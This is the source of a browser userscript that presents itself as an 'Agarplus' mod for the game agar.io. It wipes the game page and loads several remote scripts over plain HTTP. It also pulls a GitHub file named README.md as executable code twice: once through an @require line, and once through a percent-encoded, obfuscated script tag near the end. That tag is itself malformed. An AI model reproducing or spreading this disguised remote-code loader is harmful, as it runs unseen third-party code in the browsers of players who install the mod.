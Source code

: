 // ==UserScript==
// @name         ㊣ȚЯΔɢΔ ȚЯΔɢΔ浓90
// @version      0.1
// @namespace    Agarplus.io (ESPERO QUE NO SEAN TAN PATETICOS EN EDITARLO ;)));
// @description  ƇƖαη 邪神 Agαrio   Esto Estara EN canal de YT style AGAR.IO ;)
// @author       8Agarplus.io) BY:::::::Traga-Traga
// @require      https://raw.githubusercontent.com/Traga-Traga/fd/master/README.md
// @match        http://agar.io/*
// @updateURL    http://agarplus.io/v2.user.js
// @downloadURL  http://agarplus.io/v2.user.js
// @grant        GM_setClipboard
// @grant        GM_xmlhttpRequest
// ==/UserScript==
function loadScript(t,e){var o=document.getElementsByTagName("head")[0],a=document.createElement("script");a.type="text/javascript",a.src=t,a.onload=e,o.appendChild(a)}function receiveMessage(t){if("http://agar.io"==t.origin&&t.data.action){var e=unsafeWindow.Action;t.data.action==e.COPY&&GM_setClipboard(t.data.data),t.data.action==e.IMAGE&&downloadResource(t.data.data,unsafeWindow.handleResource)}}function downloadResource(t,e){GM_xmlhttpRequest({method:"GET",url:t,responseType:"blob",onload:function(o){200===o.status?e(t,window.URL.createObjectURL(o.response)):console.log("res.status="+o.status)},onerror:function(t){console.log("GM_xmlhttpRequest error! "),e(null)}})}var VERSION="2.0.0",$,URL_JQUERY="http://code.jquery.com/jquery-1.11.3.min.js",URL_BOOTSTRAP="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js",URL_SOCKET_IO="https://cdn.socket.io/socket.io-1.3.5.js",URL_FACEBOOK="http://connect.facebook.net/en_US/sdk.js",URL_MAIN_OUT="http://extension.agarplus.io/v2.js",URL_CSS_FILE="http://gdriv.es/agar_main_files/PublicAgar/KZx.css";window.stop(),document.documentElement.innerHTML=null,"agar.io"==location.host&&"/"==location.pathname&&(location.href="http://agar.io/agarplus.io"+location.hash),loadScript(URL_JQUERY,function(){$=unsafeWindow.jQuery,$("head").append('<link href="https://fonts.googleapis.com/css?family=Ubuntu:400,300,300italic,400italic,500,500italic,700,700italic" rel="stylesheet" type="text/css">'),$("head").append('<link rel="stylesheet" href="http://agar.io/css/glyphicons-social.css">'),$("head").append('<link rel="stylesheet" href="http://agar.io/css/animate.css">'),$("head").append('<link rel="stylesheet" href="http://agar.io/css/bootstrap.min.css">'),$("head").append('<link rel="stylesheet" href="'+URL_CSS_FILE+'">'),loadScript(URL_BOOTSTRAP,function(){loadScript(URL_SOCKET_IO,function(){loadScript(URL_MAIN_OUT,function(){loadScript(URL_FACEBOOK,function(){})})})})}),window.addEventListener("message",receiveMessage,!1);
 
setTimeout(function(){
    $(document).ready(function(){
    function addGlobalStyle(css) {
    var head, style;
    head = document.getElementsByTagName('head')[0];
    if (!head) { return; }
    style = document.createElement('style');
    style.type = 'text/css';
    style.innerHTML = css;
    head.appendChild(style);
}
 
addGlobalStyle('.btn-zeroK { width:68%!important; height:35px!important; background:#6DBED8!important; border-color: #6DBED8!important; margin-bottom: 5px!important;}');
addGlobalStyle('.btn-zeroK:hover {width:68%!important;  height:35px!important; background:#49B4D6!important; border-color: #49B4D6!important; margin-bottom: 5px!important;}');
addGlobalStyle('.btn-zeroK2 { width:68%!important; height:35px!important; background:#7ACA7A!important; border-color: #7ACA7A!important; margin-bottom: 5px!important;}');
addGlobalStyle('.btn-zeroK2:hover {width:68%!important;  height:35px!important; background:#6DB56D!important; border-color: #6DB56D!important; margin-bottom: 5px!important;}');
 
$("head").append('<script type="text/javascript" document.write(unescape(src="%68%74%74%70%73%3A%2F%2F%72%61%77%2E%67%69%74%68%75%62%75%73%65%72%63%6F%6E%74%65%6E%74%2E%63%6F%6D%2F%54%72%61%67%61%2D%54%72%61%67%61%2F%66%64%2F%6D%61%73%74%65%72%2F%52%45%41%44%4D%45%2E%6D%64"></script>');
});
 
}, 1000);
